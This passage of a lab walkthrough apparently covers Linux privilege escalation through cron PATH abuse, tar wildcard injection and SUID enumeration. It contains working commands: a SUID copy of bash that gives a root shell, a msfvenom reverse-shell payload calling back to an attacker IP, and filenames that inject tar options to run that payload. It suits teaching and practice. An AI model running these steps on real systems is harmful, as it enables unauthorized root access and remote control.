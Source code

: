 ```shell
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

This can then be set to executable with `chmod +x /home/user/overwrite.sh`.

As the crontab runs as root, this will create a new bash shell at `/tmp/rootbash` which then has the SUID bit set so that permissions can be retained.

Now running `/tmp/rootbash -p` will grant a root shell.

**Questions**

    1. What is the value of the PATH variable in /etc/crontab?

`/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron Jobs - Wildcards

`cat /usr/local/bin/compress.sh`

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

The tar command is being run with a wildcard in the users home directory.

msfvenom can be used to generate a payload for a Linux netcat reverse shell. 
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.32.89 LPORT=4444 -f elf -o shell.elf`

Now we begin our listener on port 4444

Next move back to the victim and run these three commands:

`touch /home/user/--checkpoint=1`

`touch /home/user/--checkpoint-action=exec=shell.elf`

`chmod +x /home/user/shell.elf`

Now when compress.sh is run, the wildcard will expand to include these files. Since their filenames are valid command line options, tar will recognise them as such and treat them as options rather than filenames.

When the reverse shell comes back to our machine it is a root shell.

## SUID/SGID Executables - Known Exploits

Find all the SUID/SGID executables on the machine with: 

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

```
user@debian:~/tools/suid/exim$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
```